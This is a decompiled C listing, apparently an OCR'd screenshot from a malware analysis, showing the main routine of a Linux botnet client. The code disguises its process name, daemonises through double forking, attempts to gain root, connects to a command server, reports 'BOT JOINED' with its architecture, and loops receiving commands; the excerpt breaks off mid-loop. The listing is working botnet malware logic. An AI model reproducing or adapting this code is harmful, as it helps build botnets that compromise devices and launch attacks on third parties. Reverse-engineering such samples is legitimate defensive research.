```
  unsigned int j; // [rsp+10DCh] [rbp-44h]
  const char *k; // [rsp+10E0h] [rbp-40h]
  const char *v25; // [rsp+10E8h] [rbp-38h]
  char *m; // [rsp+10F0h] [rbp-30h]
  int v27; // [rsp+10FCh] [rbp-24h]
  const char *v28; // [rsp+1100h] [rbp-20h]
  int n; // [rsp+110Ch] [rbp-14h]

  v16 = &unk_40F17D;
  strncpy(*argv, &unk_40F17D, strlen(*argv));
  *argv = (const char *)&unk_40F17D;
  prctl(15LL, v16, 0LL, 0LL, 0LL);
  v3 = time(0LL);
  v4 = getpid();
  srandom(v3 ^ v4);
  v5 = time(0LL);
  v6 = getpid();
  init_rand(v5 ^ v6);
  v17 = fork();
  if ( v17 )
  {
    waitpid(v17, v15, 0LL);
    exit(0);
  }
  if ( (unsigned int)fork() )
    exit(0);
  chdir("/");
  setuid(0);
  seteuid(0);
  signal(13LL, 1LL);
  while ( !(unsigned int)fork() )
  {
    if ( !(unsigned int)initConnection() )
    {
      Endianness = getEndianness();
      Build = getBuild();
      sockprintf(
        mainCommSock,
        (unsigned int)"[\x1B[96mBOT JOINED\x1B[97m] Arch: \x1B[96m%s \x1B[97m|| Type: %s]",
        Build,
        Endianness,
        v9,
        v10);
      UpdateNameSrvs();
      v19 = 0;
      i = 0;
      while ( 1 )
      {
        v19 = recvLine((unsigned int)mainCommSock, v13, 4096LL);
        if ( v19 == -1 )
          break;
        for ( i = 0; i < (unsigned __int64)numpids; ++i )
        {
          if ( (int)waitpid(*(unsigned int *)(4LL * i + pids), 0LL, 1LL) > 0 )
          {
            for ( j = i + 1; j < (unsigned __int64)numpids; ++j )
              *(_DWORD *)(4LL * (j - 1) + pids) = *(_DWORD *)(4LL * j + pids);
            *(_DWORD *)(4LL * (j - 1) + pids) = 0;
            --numpids;
            v22 = malloc(4 * numpids + 4);
            for ( j = 0; j < (unsigned __int64)numpids; ++j )
              *(_DWORD *)(v22 + 4LL * j) = *(_DWORD *)(4LL * j + pids);
            free(pids);
```